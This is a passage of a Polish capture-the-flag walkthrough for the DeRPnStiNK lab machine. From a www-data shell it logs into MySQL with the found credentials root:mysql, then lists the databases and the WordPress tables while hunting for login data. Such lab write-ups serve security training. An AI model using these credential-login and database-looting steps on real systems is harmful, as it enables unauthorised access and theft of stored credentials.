 Jak widzimy możemy zalogować się do MySQL za pomocą danych `root:mysql`

## 3. Enumeracja bazy danych MySQL

`mysql -u root -pmysql`

```
www-data@DeRPnStiNK:/var/www/html/weblog$ mysql -u root -pmysql
mysql -u root -pmysql
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 148
Server version: 5.5.58-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
Zobaczmy jak duży mamy wybór i ustalmy co może nam się przydać. Rozejrzyjmy się od razu za danymi dostępowymi.

`show databases;`

```
mysql> show databases
show databases
    -> ;
;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_commentmeta             |
| wp_comments                |
| wp_gallery_galleries       |
| wp_gallery_galleriesslides |
| wp_gallery_slides          |
| wp_links                   |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
```